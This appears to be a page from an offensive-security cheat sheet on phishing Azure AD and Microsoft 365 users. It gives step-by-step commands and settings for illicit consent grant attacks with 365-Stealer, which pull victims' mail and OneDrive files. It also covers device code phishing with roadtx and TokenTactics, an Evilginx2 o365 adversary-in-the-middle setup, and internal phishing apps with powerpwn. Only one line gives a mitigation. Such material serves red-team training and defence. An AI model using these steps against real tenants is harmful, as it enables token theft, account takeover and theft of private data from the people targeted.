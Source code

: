 # Azure AD Phishing

## Illicit Consent Grant

> The attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to. 

Check if users are allowed to consent to apps: `PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`

* **Disable user consent** : Users cannot grant permissions to applications.   
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant    
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent.    
* **Custom app consent policy**   

### Register Application

1. Login to https://portal.azure.com > Azure Active Directory
2. Click on **App registrations** > **New registration**
3. Enter the Name for our application
4. Under support account types select **"Accounts in any organizational directory (Any Azure AD directory - Multitenant)"**
5. Enter the Redirect URL. This URL should be pointed towards our 365-Stealer application that we will host for hosting our phishing page. Make sure the endpoint is `https://<DOMAIN/IP>:<PORT>/login/authorized`.
6. Click **Register** and save the **Application ID**

### Configure Application

1. Click on `Certificates & secrets`
2. Click on `New client secret` then enter the **Description** and click on **Add**.
3. Save the **secret**'s value.
4. Click on API permissions > Add a permission
5. Click on Microsoft Graph > **Delegated permissions**
6. Search and select the below mentioned permissions and click on Add permission
    * Contacts.Read 
    * Mail.Read / Mail.ReadWrite
    * Mail.Send
    * Notes.Read.All
    * Mailboxsettings.ReadWrite
    * Files.ReadWrite.All 
    * User.ReadBasic.All
    * User.Read

### Setup 365-Stealer (Deprecated)

:warning: Default port for 365-Stealer phishing is 443

- Run XAMPP and start Apache
- Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://github.com/AlteredSecurity/365-Stealer.git`
- Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r requirements.txt`
- Enable sqlite3 (Xampp > Apache config > php.ini) and restart Apache
- Edit `C:/xampp/htdocs/yourvictims/index.php` if needed
    - Disable IP whitelisting `$enableIpWhiteList = false;`
- Go to 365-Stealer Management portal > Configuration (http://localhost:82/365-stealer/yourVictims)
    - **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    - **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

### Vajra

> Vajra is a UI-based tool with multiple techniques for attacking and enumerating in the target's Azure environment. It features an intuitive web-based user interface built with the Python Flask module for a better user experience. The primary focus of this tool is to have different attacking techniques all at one place with web UI interfaces. - https://github.com/TROUBLE-1/Vajra

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".

### Roadtx

* Use the authorization code flow in roadtx to get token
```ps1
roadtx codeauth -c <app-id> -r msgraph -t <tenant-id> <0.A....> -ru 'https://<phish-app>/redir' -p <app-secret>
```


## Device Code Phishing

* Using roadtool: `roadtx gettokens -u user@domain.lab --device-code`
    ```ps1
    roadtx.exe auth --device-code -c 29d9ed98-a469-4536-ade2-f981bc1d605e
    Requesting token for resource https://graph.windows.net
    To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code XXXXXXXXX to authenticate.
    ```

* Using TokenTactics to request a token for Azure Graph API using a device code
    ```ps1
    Import-Module .\TokenTactics.psd1
    Get-AzureToken -Client Graph
    ```
* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
* Enjoy your **access token** and **refresh token**


## Phishing with Evilginx2

* Run [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) with o365 phishlet
    ```powershell
    PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
    : config domain username.corp
    : config ip 10.10.10.10
    : phishlets hostname o365 login.username.corp
    : phishlets get-hosts o365
    ```
* Create a DNS entry type A for `login.login.username.corp` and `www.login.username.corp`, pointing to your machine
* Copy certificate and enable the phishing
    ```ps1
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
    : phishlets enable o365

    # get the phishing URL
    : lures create o365
    : lures get-url 0
    ```


### Internal Phishing - Power Platform

> Set up an internal phishing application on a Microsoft-owned domains which will automatically authenticate as users browse to your link.


* Install [mbrg/power-pwn](https://github.com/mbrg/power-pwn) - An offensive and defensive security toolset for Microsoft 365 Power Platform
    ```ps1
    pip install powerpwn
    ```
* Install the application: `powerpwn phishing install-app -t {tenant-id} -e {environment-id} --input {path to application package zip} -n {application name}`
* Share application with org: `powerpwn phishing share-app -t {tenant-id} -e {environment-id} -a {app id}`


## References

* [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) - trouble1_raunak - Jun 6, 2021](https://www.youtube.com/watch?v=51FSvndgddk&list=WL)
* [The Art of the Device Code Phish - Bobby Cooke - July 12, 2021](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)
* [Power Pwn - Black Hat Arsenal 2023 - Aug 24, 2023](https://www.youtube.com/watch?v=LpdckZyBwvs)
* [Low Code High Risk - Enterprise Domination via Low Code Abuse - Defcon 30 - Oct 20, 2022](https://www.youtube.com/watch?v=D3A62Rzozq4)